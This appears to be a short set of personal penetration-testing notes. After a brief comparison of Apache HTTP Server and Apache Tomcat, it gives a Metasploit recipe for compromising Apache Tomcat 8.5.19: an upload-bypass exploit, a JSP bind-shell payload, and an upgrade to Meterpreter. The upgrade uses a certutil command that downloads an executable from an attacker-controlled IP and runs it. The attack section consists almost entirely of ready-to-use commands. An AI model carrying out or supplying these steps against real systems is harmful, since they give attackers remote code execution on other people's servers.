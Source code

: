 # **Difference between Apache & Apache Tomcat:**

#### The standard <mark style="background: #00CDFF82;">Apache</mark> HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP at <mark style="background: #62BE6A;">Port 80</mark>.

#### The <mark style="background: #ED7506;">Apache Tomcat</mark> web server is primarily used to host dynamic websites or web applications developed in Java at <mark style="background: #ED7506;">Port 8080</mark>.



---
# **MSF Module to Exploit "Apache Tomcat 8.5.19"**

	use exploit/multi/http/tomcat_jsp_upload_bypass

Then choose this payload

	set payload java/jsp_shell_bind_tcp


If the target is windows choose the shell type:

	set SHELL cmd


#### This exploit gives a basic Java shell... To upgrade to a meterpreter session Check [[msfvenom⚕️]]:

1. Create a Meterpreter Payload using ur local IP and Port.
2. Serve this payload using a python web server.
3. download this payload to the target <mark style="background: #e74c3c;">in the directory where you get the session on</mark> using that basic shell and using this utility in windows:

		certutil -urlcache -f http://10.10.45.11/meterpreter.exe outputfile.exe

4. Then setup a listener using `multi/handler` module in MSF
5. Then Execute the file we download. If windows like this: `.\outputfile.exe`   # Make sure the back slash is for Windows and forward slash for Linux

